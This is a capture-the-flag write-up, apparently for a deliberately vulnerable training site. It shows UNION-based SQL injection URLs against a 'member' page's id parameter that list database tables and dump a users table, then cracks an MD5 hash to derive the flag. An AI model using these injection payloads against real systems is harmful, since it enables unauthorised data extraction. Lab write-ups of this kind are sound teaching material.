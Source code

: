 For this flag, i used an sql injection from the member get by id route.

Here is the route, normaly used :/index.php?page=member&id=2Submit=Submit

With a union sql injection attack I was able to export 5 tables content.

I was able to extract the table names with this request :
http://{{host}}/index.php?page=member&id=2 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.tables&Submit=Submit

Here is a sample of the union attack, for the db vote_dbs :
http://{{host}}/index.php?page=member&id=2 UNION SELECT nb_vote, subject FROM Member_survey.vote_dbs&Submit=Submit

For this db export, try this URL :
http://192.168.0.18/index.php?page=member&id=2%20UNION%20SELECT%20commentaire,%20countersign%20FROM%20Member_Sql_Injection.users&Submit=Submit

For this flag, this is the users table that will contain the flag. Here is the exported table :

| user_id | first_name | last_name | town | country | planet | commentaire | countersign |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 1 | one | me | Paris | France | Earth | Je pense, donc je suis | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2 | two | me | Helsinki | Finland | Earth | Aamu on iltaa viisaampi. | 60e9032c586fb422e2c16dee6286cf10 |
| 3 | three | me | Dublin | Irlande | Earth | Dublin is a city of stories and secrets. | e083b24a01c483437bcf4a9eea7c1b4d |
| 5 | Flag | GetThe | 42 | 42 | 42 | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

As you can see in the countrysign of the user 5, there is some instruction to get the flag.

`5ff9d0165b4f92b14994e5c685cdce28` is a md5 encryption.
Decrypted version is : `FortyTwo` .
Char lowered is `fortytwo` .
And then the sha256 version is : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

So we got the flag !
